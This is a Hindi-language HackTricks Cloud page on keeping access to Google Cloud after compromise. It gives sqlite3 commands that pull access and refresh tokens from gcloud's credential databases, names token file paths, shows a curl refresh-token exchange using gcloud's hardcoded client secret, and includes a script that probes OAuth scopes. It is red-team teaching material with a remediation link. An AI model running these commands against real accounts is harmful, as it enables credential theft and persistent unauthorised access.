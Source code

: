 # GCP - Non-svc Persistance

{% hint style="success" %}
AWS Hacking सीखें और अभ्यास करें:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks को समर्थन दें</summary>

* [**subscription plans**](https://github.com/sponsors/carlospolop) देखें!
* 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) या [**telegram group**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो** करें [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **PRs सबमिट करके हैकिंग ट्रिक्स साझा करें** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos में।

</details>
{% endhint %}

ये उपयोगी तकनीकें हैं जब, किसी तरह, आपने कुछ GCP credentials या GCP environment में चल रही मशीन को compromise कर लिया हो।

## Token Hijacking

### Authenticated User Tokens

किसी उपयोगकर्ता का **current token** प्राप्त करने के लिए आप निम्नलिखित चला सकते हैं:

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/access_tokens.db "select access_token from access_tokens where account_id='<email>';"
```
{% endcode %}

इस पेज में देखें कि **इस टोकन को सीधे gcloud का उपयोग करके कैसे उपयोग करें**:

{% embed url="https://book.hacktricks.xyz/pentesting-web/ssrf-server-side-request-forgery/cloud-ssrf#id-6440-1" %}

**नया एक्सेस टोकन जनरेट करने के लिए** विवरण प्राप्त करने के लिए चलाएं:

{% code overflow="wrap" %}
```bash
sqlite3 $HOME/.config/gcloud/credentials.db "select value from credentials where account_id='<email>';"
```
{% endcode %}

यह भी संभव है कि **`$HOME/.config/gcloud/application_default_credentials.json`** और **`$HOME/.config/gcloud/legacy_credentials/*/adc.json`** में refresh tokens पाए जाएं।

**refresh token**, client ID, और client secret के साथ एक नया refreshed access token प्राप्त करने के लिए, निम्नलिखित कमांड चलाएं:

{% code overflow="wrap" %}
```bash
curl -s --data client_id=<client_id> --data client_secret=<client_secret> --data grant_type=refresh_token --data refresh_token=<refresh_token> --data scope="https://www.googleapis.com/auth/cloud-platform https://www.googleapis.com/auth/accounts.reauth" https://www.googleapis.com/oauth2/v4/token
```
{% endcode %}

**Admin** > **Security** > **Google Cloud session control** में refresh tokens की वैधता को प्रबंधित किया जा सकता है, और डिफ़ॉल्ट रूप से इसे 16 घंटे पर सेट किया गया है, हालांकि इसे कभी समाप्त न होने के लिए भी सेट किया जा सकता है:

<figure><img src="../../../.gitbook/assets/image (11).png" alt=""><figcaption></figcaption></figure>

### Auth flow

जब `gcloud auth login` जैसी किसी चीज़ का उपयोग करते हैं, तो प्रमाणीकरण प्रवाह ब्राउज़र में एक प्रॉम्प्ट खोलेगा और सभी scopes को स्वीकार करने के बाद ब्राउज़र इस तरह के अनुरोध को टूल द्वारा खोले गए http पोर्ट पर भेजेगा:
```
/?state=EN5AK1GxwrEKgKog9ANBm0qDwWByYO&code=4/0AeaYSHCllDzZCAt2IlNWjMHqr4XKOuNuhOL-TM541gv-F6WOUsbwXiUgMYvo4Fg0NGzV9A&scope=email%20openid%20https://www.googleapis.com/auth/userinfo.email%20https://www.googleapis.com/auth/cloud-platform%20https://www.googleapis.com/auth/appengine.admin%20https://www.googleapis.com/auth/sqlservice.login%20https://www.googleapis.com/auth/compute%20https://www.googleapis.com/auth/accounts.reauth&authuser=0&prompt=consent HTTP/1.1
```
फिर, gcloud कुछ हार्डकोडेड `client_id` (`32555940559.apps.googleusercontent.com`) और **`client_secret`** (`ZmssLNjJy2998hD4CTg2ejr2`) के साथ state और code का उपयोग करेगा ताकि **अंतिम refresh token data** प्राप्त किया जा सके।

{% hint style="danger" %}
ध्यान दें कि localhost के साथ संचार HTTP में होता है, इसलिए refresh token प्राप्त करने के लिए डेटा को इंटरसेप्ट करना संभव है, हालांकि यह डेटा केवल 1 बार मान्य होता है, इसलिए यह बेकार होगा, refresh token को फ़ाइल से पढ़ना आसान है।
{% endhint %}

### OAuth Scopes

आप सभी Google scopes को [https://developers.google.com/identity/protocols/oauth2/scopes](https://developers.google.com/identity/protocols/oauth2/scopes) पर पा सकते हैं या उन्हें निष्पादित करके प्राप्त कर सकते हैं:

{% code overflow="wrap" %}
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-A/\-\._]*' | sort -u
```
{% endcode %}

इस स्क्रिप्ट के साथ यह देखना संभव है कि **`gcloud`** का उपयोग करके प्रमाणित करने वाला एप्लिकेशन कौन-कौन से स्कोप्स को सपोर्ट कर सकता है:
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope         \r"
if ! curl -v "https://accounts.google.com/o/oauth2/auth?response_type=code&client_id=32555940559.apps.googleusercontent.com&redirect_uri=http%3A%2F%2Flocalhost%3A8085%2F&scope=openid+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fuserinfo.email+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcloud-platform+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fappengine.admin+$scope+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fsqlservice.login+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Fcompute+https%3A%2F%2Fwww.googleapis.com%2Fauth%2Faccounts.reauth&state=AjvFqBW5XNIw3VADagy5pvUSPraLQu&access_type=offline&code_challenge=IOk5F08WLn5xYPGRAHP9CTGHbLFDUElsP551ni2leN4&code_challenge_method=S256" 2>&1 | grep -q "error"; then
echo ""
echo $scope
fi
done
```
```
After executing it it was checked that this app supports these scopes:
```

चलाने के बाद यह जांचा गया कि यह ऐप इन स्कोप्स का समर्थन करता है:
```
https://www.googleapis.com/auth/appengine.admin
https://www.googleapis.com/auth/bigquery
https://www.googleapis.com/auth/cloud-platform
https://www.googleapis.com/auth/compute
https://www.googleapis.com/auth/devstorage.full_control
https://www.googleapis.com/auth/drive
https://www.googleapis.com/auth/userinfo.email
```
यह देखना दिलचस्प है कि यह ऐप **`drive`** स्कोप को कैसे सपोर्ट करता है, जो एक उपयोगकर्ता को GCP से Workspace तक एस्केलेट करने की अनुमति दे सकता है यदि एक हमलावर उपयोगकर्ता को इस स्कोप के साथ एक टोकन जनरेट करने के लिए मजबूर कर देता है।

**कैसे दुरुपयोग करें** [**यहां देखें**](../gcp-to-workspace-pivoting/#abusing-gcloud)**.**

### Service Accounts

ठीक उसी तरह जैसे प्रमाणित उपयोगकर्ताओं के साथ, यदि आप किसी सेवा खाते की **निजी कुंजी फ़ाइल से समझौता** करने में सफल होते हैं, तो आप इसे **आमतौर पर जितनी देर चाहें एक्सेस कर सकते हैं**।\
हालांकि, यदि आप किसी सेवा खाते का **OAuth टोकन** चुरा लेते हैं तो यह और भी दिलचस्प हो सकता है, क्योंकि, भले ही डिफ़ॉल्ट रूप से ये टोकन केवल एक घंटे के लिए उपयोगी होते हैं, यदि **पीड़ित निजी एपीआई कुंजी को हटा देता है, तो भी OAuth टोकन तब तक वैध रहेगा जब तक कि यह समाप्त नहीं हो जाता**।

### Metadata

स्पष्ट रूप से, जब तक आप GCP वातावरण में चल रही मशीन के अंदर हैं, आप **मेटाडेटा एंडपॉइंट से संपर्क करके उस मशीन से जुड़े सेवा खाते तक पहुंच सकते हैं** (ध्यान दें कि इस एंडपॉइंट में आप जिन OAuth टोकनों तक पहुंच सकते हैं, वे आमतौर पर स्कोप द्वारा प्रतिबंधित होते हैं)।

### Remediations

इन तकनीकों के लिए कुछ सुधार [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2) में समझाए गए हैं।

## References

* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-1)
* [https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2](https://www.netskope.com/blog/gcp-oauth-token-hijacking-in-google-cloud-part-2)

{% hint style="success" %}
AWS Hacking सीखें और अभ्यास करें:<img src="/.gitbook/assets/image.png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="/.gitbook/assets/image.png" alt="" data-size="line">\
GCP Hacking सीखें और अभ्यास करें: <img src="/.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="/.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks को सपोर्ट करें</summary>

* [**सब्सक्रिप्शन प्लान**](https://github.com/sponsors/carlospolop) देखें!
* 💬 [**Discord ग्रुप**](https://discord.gg/hRep4RUj7f) या [**telegram ग्रुप**](https://t.me/peass) में शामिल हों या हमें **Twitter** 🐦 पर फॉलो करें [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोज़िटरी में PR सबमिट करके।

</details>
{% endhint %}
